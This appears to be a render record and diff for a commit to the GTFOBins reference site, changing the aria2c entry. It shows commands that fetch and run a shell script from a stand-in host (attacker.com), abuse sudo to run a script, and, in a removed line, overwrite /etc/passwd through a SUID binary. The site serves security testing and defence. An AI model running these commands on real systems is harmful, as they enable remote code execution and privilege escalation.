

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/aria2c.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify aria2c file download

```diff
--- a/_gtfobins/aria2c.md
+++ b/_gtfobins/aria2c.md
@@ -10,6 +10,12 @@ functions:
         aria2c --on-download-error=$TF http://x
     - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
       code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
+  file-download:
+    - description: Fetch a remote file via HTTP GET request. Use `--allow-overwrite` if needed.
+      code: |
+        URL=http://attacker.com/file_to_get
+        LFILE=file_to_save
+        aria2c -o "$LFILE" "$URL"
   sudo:
     - code: |
         COMMAND='id'
@@ -17,10 +23,6 @@ functions:
         echo "$COMMAND" > $TF
         chmod +x $TF
         sudo aria2c --on-download-error=$TF http://x
-  suid:
-    - code: |
-        aria2c -d /etc/ -o passwd "http://attacker.com/passwd" --allow-overwrite=true
-    - description: Remote download and replace /etc/passwd with root privilege.
   limited-suid:
     - code: |
         COMMAND='id'
```
